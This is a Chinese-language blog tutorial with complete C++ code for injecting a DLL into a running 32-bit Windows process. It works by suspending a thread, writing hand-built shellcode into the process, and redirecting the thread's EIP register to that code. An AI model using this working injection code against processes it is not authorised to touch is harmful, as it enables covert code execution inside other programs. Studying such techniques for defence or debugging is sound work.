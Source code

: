 # 通过修改EIP寄存器实现远程注入



功能：通过修改EIP寄存器实现32位程序的DLL注入（如果是64位，记得自己对应修改汇编代码部分）


原理： 
挂起目标进程，停止目标进程EIP的变换，在目标进程开启空间，然后把相关的指令机器码和数据拷贝到里面去，然后修改目标进程EIP使其强行跳转到我们拷贝进去的相关机器码位置，执行相关，然后跳转回来。下面的例子是实现DLL注入， 
但是和平时说的远程代码注入在注入的逻辑上不同，但是同时都是用到了一个重要的结论就是：很多系统dll的导出函数地址在不同进程中，是一样的。 
*/ 

/* 思路 
修改EID实现代码注入的汇编思路如下 
SuspendThread(); 
get eip 
push ad 
push fd 
push AddressDllFilePath 
call LoadLibrary 
pop fd 
pop ad 
jmp eip //这个是为了让程序执行完我们的代码之后自己跳转回去继续执行 
ResumeThread(); 
*/ 

/* 
注意两个问题 
1.call 如果直接是个地址的话要这么计算 
call RVA - call指令的下一条地址 RVA - (nowaddress + 5) //+5是因为 call dword 是长度5 1+4 
2.jmp 直接跳转地址也是同理 
jmp RVA - jmp指令的销一条地址 RVA - (nowaddress + 5) //+5是因为 jmp dword 长度是5 1+4 
Tip 
还有就是要知道，Kernel32.LoadLibraryW的地址不同进程是一样的，这样就可以直接得到相关RVA 
*/

 

附上代码：

```
  #include "stdafx.h"  
    #include <string>  
    #include <windows.h>  
    #include "AnalyzeAndRun.h"  
    using namespace std;  
      
      
    WCHAR pDllPath[] = L"C:\\TestDllMexxBoxX32.dll";              //被注入dll的路径（32位）  
    VOID Test(){  
        HWND hWnd=::FindWindow(NULL,L"AAA");                      //注入的线程对应窗体的title AAA，  
                                                                  //主要就是为了获得tid 和 pid 这个地方可以对应修改，通过别的姿势获取。  
        if(hWnd==NULL){  
            MessageBox(NULL ,L"未获取窗口句柄！",L"失败",MB_OK);  
            return;  
        }  
        DWORD pid,tid;  
        tid=GetWindowThreadProcessId(hWnd,&pid);  
        if(tid<=0){  
            MessageBox(NULL ,L"未获取线程ID",L"失败" ,MB_OK);  
            return;  
        }  
        if(pid<=0){  
            MessageBox(NULL ,L"未获取进程ID",L"失败" ,MB_OK);  
            return;  
        }  
        HANDLE hProcess=OpenProcess(PROCESS_ALL_ACCESS,FALSE,pid);  
        if(hProcess <= 0){  
            MessageBox(NULL ,L"未获取进程句柄",L"失败" ,MB_OK);  
            return;  
        }  
        HANDLE hThread=OpenThread(THREAD_ALL_ACCESS,FALSE,tid);  
        if(hThread <= 0){  
            MessageBox(NULL ,L"未获取线程ID",L"失败" ,MB_OK);  
            return;  
        }  
        SuspendThread(hThread);                         //挂起线程                       
      
      
        CONTEXT ct={0};  
        ct.ContextFlags = CONTEXT_CONTROL;  
        GetThreadContext(hThread,&ct);                 //获取，保存线程寄存器相关  
      
      
        DWORD dwSize = sizeof(WCHAR)*1024;             //0-0x100 写代码 之后写数据  
        BYTE *pProcessMem = (BYTE *)::VirtualAllocEx(hProcess,NULL,dwSize,MEM_COMMIT,PAGE_EXECUTE_READWRITE);  
        DWORD dwWrited = 0;  
        ::WriteProcessMemory(hProcess, (pProcessMem + 0x100), pDllPath,   //先把路径（数据）写到内存里，从0x100开始  
            (wcslen(pDllPath) + 1) * sizeof(WCHAR), &dwWrited);  
          
      
      
        FARPROC pLoadLibraryW = (FARPROC)::GetProcAddress(::GetModuleHandle(L"Kernel32"), "LoadLibraryW");  
        BYTE ShellCode[32] = { 0 };  
        DWORD *pdwAddr = NULL;  
      
      
        ShellCode[0] = 0x60; // pushad  
        ShellCode[1] = 0x9c; // pushfd  
        ShellCode[2] = 0x68; // push  
        pdwAddr = (DWORD *)&ShellCode[3]; // ShellCode[3/4/5/6]  
        *pdwAddr = (DWORD)(pProcessMem + 0x100);  
        ShellCode[7] = 0xe8;//call  
        pdwAddr = (DWORD *)&ShellCode[8]; // ShellCode[8/9/10/11]  
        *pdwAddr = (DWORD)pLoadLibraryW - ((DWORD)(pProcessMem + 7) + 5 );  // 因为直接call地址了，所以对应机器码需要转换，计算VA  
        ShellCode[12] = 0x9d; // popfd  
        ShellCode[13] = 0x61; // popad  
        ShellCode[14] = 0xe9; // jmp  
      
      
        pdwAddr = (DWORD *)&ShellCode[15]; // ShellCode[15/16/17/18]  
        *pdwAddr = ct.Eip - ((DWORD)(pProcessMem + 14) + 5);  //因为直接jmp地址了，所以对应机器码需要转换，计算VA  
        ::WriteProcessMemory(hProcess, pProcessMem, ShellCode, sizeof(ShellCode), &dwWrited);  
        ct.Eip = (DWORD)pProcessMem;  
        ::SetThreadContext(hThread, &ct);  
      
      
        ::ResumeThread(hThread);  
        ::CloseHandle(hProcess);  
        ::CloseHandle(hThread);  
      
      
    }  
    int _tmain(int argc, _TCHAR* argv[]){   
        Test();  
        return 0;  
    } 
```

 

文章作者：[lyshark](http://www.cnblogs.com/lyshark/)